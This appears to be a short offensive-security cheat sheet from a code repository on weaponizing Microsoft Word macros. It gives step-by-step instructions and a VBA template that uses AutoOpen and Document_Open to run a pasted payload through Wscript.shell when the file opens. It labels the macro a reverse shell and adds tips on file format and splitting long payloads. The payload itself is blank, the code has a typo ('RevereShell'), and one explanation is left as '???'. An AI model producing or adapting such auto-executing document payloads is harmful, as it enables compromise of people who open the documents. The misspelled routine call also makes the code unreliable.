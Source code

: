 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Macros
## Table of Contents
* [How to Add a Macro to a Microsoft Word Document](#how-to-add-a-macro-to-a-microsoft-word-document)
* [Example Macro](#example-macro)
* [Example Macro Syntax Explained](#example-macro-syntax-explained)

## How to Add a Macro to a Microsoft Word Document
1. Click-on "View" > "Macros" 
2. Set "Macro name" to be "Reverse Shell"
3. Set "Macros in" to be the name of the current Word document
4. Click-on "Create"
5. Replace the provided template code with your payload (see below for an example)
6. Save the macro-embedded file as a "Word 97-2003 Document"

## Example Macro
To test the example code below, save it with a .doc or .docm file (do not use .docx). Ensure to use variables to store strings as VBA limits string lengths to no more than 255 per string. In other words, if you have a long payload, break it up and then concatenate each part to a variable. 
```vba
Sub AutoOpen()
  ReverseShell
End Sub

Sub Document_Open()
  RevereShell
End Sub

Sub ReverseShell()
  ' copy/paste your payload into the FOO variable
  Dim FOO As String
  FOO = ""
  
  CreateObject("Wscript.shell").Run FOO
End Sub
```

## Example Macro Syntax Explained
```bash
# Sub = used like a function, does not return values (functions do)
# AutoOpen() = predefined procedure; executed when a new doc is opened
# Document_Open() = predefined procedure; exec when a doc is already opened
# ' = comments
# Dim = used to declare a var (example declares FOO as a string var)
# CreateObject() = ???
# End Sub = represents the end of "sub" procedure within our exploit
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md.md">Top of Page</a> |
  <a href="/CheatSheets/metawork_ms_office_macros.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
